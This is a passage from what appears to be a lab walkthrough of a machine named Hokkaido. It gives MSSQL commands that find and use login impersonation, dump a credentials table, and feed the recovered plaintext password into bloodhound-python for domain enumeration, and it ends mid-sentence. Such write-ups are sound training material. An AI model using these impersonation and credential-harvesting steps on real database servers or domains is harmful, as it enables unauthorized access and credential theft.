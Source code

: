 ![Hokkaido4.png](/assets/images/Hokkaido/Hokkaido4.png){: .center-aligned width="600px"}

Now I didn't know this, but apparently we can impersonate a user on mssql. The commands are as follows: 
- `SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`
	- We are given the response of `hrappdb-reader` so: 
- `EXECUTE AS LOGIN = 'hrappdb-reader'`
- `USE hrappdb`

Then we can view the table names of the hrappdb database using this command: 
`SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;` which shows us the table of `sysauth`. 

![Hokkaido5.png](/assets/images/Hokkaido/Hokkaido5.png){: .center-aligned width="600px"}

We can further enumerate by getting everything from that table: `SELECT * FROM sysauth;`, and we get what looks like credentials.

![Hokkaido6.png](/assets/images/Hokkaido/Hokkaido6.png){: .center-aligned width="600px"}

At this point we can add `hrappdb-service:Untimed$Runny` to our creds.txt file, and use it to enumerate further. We can spend some time doing that, but it can help to run `bloodhound-python` with all of these credential sets and add the zip files to bloodhound. We run this for each of the three users we have creds for, info, discovery, and hrapp-service: `bloodhound-python -u "$user" -p '$pass' -d hokkaido-aerospace.com -c all --zip -ns 192.168.157.40`

After loading the results into bloodhound, we notice a few potentially important things:
